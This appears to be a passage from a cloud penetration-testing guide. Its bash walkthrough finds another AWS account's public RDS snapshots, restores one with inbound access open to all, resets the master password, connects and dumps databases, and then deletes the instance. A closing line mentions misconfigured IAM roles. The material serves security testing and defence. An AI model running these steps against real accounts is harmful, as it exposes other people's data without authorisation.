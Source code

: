 ```bash
# Depending on the engine of the target snapshot, you'll have to install
# the tool for connecting to the RDS server
# We'll use MySQL in this example 

# Search based on AWS account id using jq
# because there is no native way to do this
# Copy the DBSnapshotIdentifier
aws rds describe-db-snapshots --include-public | jq '.DBSnapshots[] | select(.DBSnapshotArn | contains("123456789012:"))'

# Restore Snapshot
# Use the DBSnapshotIdentifier from above and create
# a security group that allows all inbound traffic if
# you don't already have one and use it here
# $db_instance_identifier should be a new custom name for
# the new db 
aws rds restore-db-instance-from-db-snapshot --db-instance-identifier $db_instance_identifier \
    --db-snapshot-identifier $db_snapshot_identifier \
    --vpc-security-group-ids sg-example1234567890 --publicly-accessible --no-multi-az

# This will take around 5-15 minutes so you can run this
# command to know when the database was restored
# The DB Instance Identifier should be the same, but you
# can get it from the output of the previous command
aws rds wait db-instance-available --db-instance-identifier $db_instance_identifier

# Change login password
# In the response you will also see the RDS
# endpoint address. Copy that for connecting
# to the instance. The username for login can
# be found in the same response under "MasterUsername"
aws rds modify-db-instance \
    --db-instance-identifier $db_instance_identifier \
    --master-user-password MyNewPassword123! \
    --apply-immediately

# Connect to the database
mysql -h $url_db -u $username --skip-ssl -p
# show databases;
# use $database;
# show tables;

# Delete RDS instance
aws rds delete-db-instance --db-instance-identifier $db_identifier --skip-final-snapshot
```

### IAM Roles

There are roles that can be assumed using various 3rd-party technologies if the role's trust policy is misconfigured.
